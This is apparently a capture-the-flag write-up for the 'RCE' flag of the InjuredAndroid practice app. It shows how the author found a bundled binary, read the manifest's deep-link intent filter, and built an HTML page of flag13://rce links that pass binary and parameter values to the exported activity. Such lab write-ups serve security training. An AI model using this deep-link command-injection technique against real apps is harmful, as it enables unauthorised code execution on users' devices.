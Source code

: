 # Flag Thirteen : RCE

Upon launching the RCE Activity, I was greeted with a blank screen, though the title bar displayed "RCE Activity", which suggested something deeper might be going on behind the scenes.

![Screenshot from 2025-05-13 13-51-35](https://github.com/user-attachments/assets/f071b73c-9cc0-429a-b858-8bacf197e23a)

Given the hint to "find the binary", I began inspecting the app’s internal resources.

Navigating to the assets directory, I discovered several binary files. After testing all of them, one file stood out:

`narnia.x86_64` — this binary hadn't been explored yet.

Attempting to run narnia.x86_64 yielded:

![Screenshot from 2025-05-13 13-46-23](https://github.com/user-attachments/assets/c55ed036-7a84-4475-b97e-af9f5c60c37d)

This prompted me to try:

![Screenshot from 2025-05-13 13-47-11](https://github.com/user-attachments/assets/d14b1eb0-bfc0-4267-9e1b-a0ad40f43087)

I then used all the parameters one by one.

![Screenshot from 2025-05-13 13-49-03](https://github.com/user-attachments/assets/7b900361-e754-44cd-8079-2b160c977d51)

Based on the hint, I combined the outputs of these into a phrase:

`Treasure_Planet`

From the AndroidManifest.xml, I found the intent filter for RCEActivity:

```xml
<activity
    android:theme="@style/AppTheme.NoActionBar"
    android:label="@string/title_activity_rce"
    android:name="b3nac.injuredandroid.RCEActivity">
    <intent-filter android:label="filter_view_flag11">
        <action android:name="android.intent.action.VIEW"/>
        <category android:name="android.intent.category.DEFAULT"/>
        <category android:name="android.intent.category.BROWSABLE"/>
        <data
            android:scheme="flag13"
            android:host="rce"/>
    </intent-filter>
</activity>
```

This confirmed that I could trigger the activity via a custom URI scheme:
flag13://rce?...

To make testing easier, I created an HTML file with clickable deep links:

```html
<html>
  <body>
    <p><a href="flag13://rce?binary=narnia.x86_64&param=testOne">Test One</a></p>
    <p><a href="flag13://rce?binary=narnia.x86_64&param=testTwo">Test Two</a></p>
    <p><a href="flag13://rce?binary=narnia.x86_64&param=testThree">Test Three</a></p>
    <p><a href="flag13://rce?combined=Treasure_Planet">Submit Combined Result</a></p>
  </body>
</html>
```

I pushed the HTML file to the emulator using:

`adb push links.html /sdcard/Download/`

Then opened the file in the emulator’s browser and tested each link successfully.
